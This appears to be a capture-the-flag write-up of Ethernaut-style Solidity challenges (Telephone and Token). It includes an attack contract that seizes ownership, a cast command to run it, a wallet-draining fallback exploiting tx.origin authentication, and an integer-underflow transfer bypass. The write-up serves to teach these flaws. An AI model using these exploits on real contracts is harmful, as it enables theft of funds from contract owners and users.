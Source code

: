 ```solidity
pragma solidity 0.8.10;

interface ITelephone{
    function changeOwner(address _owner) external;
}

contract AttackTelephone{  
    address telephoneAddress = 0x16a5385C66f06D6190eAbD5979816317f314Fe4C;
    ITelephone public telephoneContract = ITelephone(telephoneAddress);
    function attack() external {
        telephoneContract.changeOwner(msg.sender);
    }
}
```

`cast send --private-key $PRIVATE_KEY <challenge_addr> "attack()"`

- Avoid phishing attacks by avoiding authenticating using `tx.origin`. Instead, always use `msg.sender` to authenticate (see [here](https://solidity-by-example.org/hacks/phishing-with-tx-origin/))
    - For instance, a vulnerability occurs when an attacker convinces victim to send him/her some small amount of ether `_amount`, triggering a malicious fallback function that transfers the funds of victim `tx.origin` to attacker.     
    - We should replace `tx.origin` (victim) with `msg.sender` (attacker contract) in the require statement 

    
```solidity
//A Wallet contract (bad) transfer method
function transfer(address payable _to, uint _amount) public {
    require(tx.origin == owner);

    (bool sent, ) = _to.call{value: _amount}("");
    require(sent, "Failed to send Ether");
}
```
    
```solidity
//attacker contract's fallback function
function () payable {
    wallet.transfer(attackerAddress, address(wallet).balance);
}
```
****

# Token

We exploit integer underflow/overflow with uint! Because we are dealing with unsigned ints: the require statement `require(balances[msg.sender] - _value >= 0)` is always true.

```solidity
mapping(address => uint) balances;
...
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
```
